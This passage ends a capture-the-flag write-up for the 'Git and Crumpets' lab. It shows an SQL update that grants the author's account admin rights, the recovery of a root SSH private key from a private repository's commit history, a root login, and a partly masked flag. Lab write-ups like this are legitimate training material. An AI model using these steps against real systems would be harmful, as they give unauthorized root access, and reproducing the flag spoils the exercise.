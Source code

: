 ```sql
```

Update our permissions to root user.

```sql
sqlite> UPDATE user SET is_admin=1 WHERE id=3;
```

Now if we visit the website we see a private repository  called `backups` owned by root!

![header](../../assets/img/posts/Gitandcrumpets/website12.png)

We have 2 branches in here `master` & `dotfiles`.

![header](../../assets/img/posts/Gitandcrumpets/website13.png)

The **dotfiles** branch has 4 commits. We see that the root user added his ssh keys and then deleted it.

![header](../../assets/img/posts/Gitandcrumpets/website14.png)

Lets now grab the SSH private key and ssh into the box as root to grab the root flag!🚩

NOTE - The name of the file is the passphrase required to ssh in as root.

```
┌──(root💀kali)-[~/thm/gitsandcrumpets]
└─# ssh root@git.git-and-crumpets.thm -i id_rsa 
Enter passphrase for key 'id_rsa': 
Last login: Sat Jul  3 21:36:13 2021 from 192.168.247.1

[root@git-and-crumpets ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@git-and-crumpets ~]# cat /root/root.txt
dGhtezYzMjAy*********g4NzI0MGRjNmExfQ==

[root@git-and-crumpets ~]# cat /root/root.txt | base64 -d
thm{6320228d*********7240dc6a1}
```
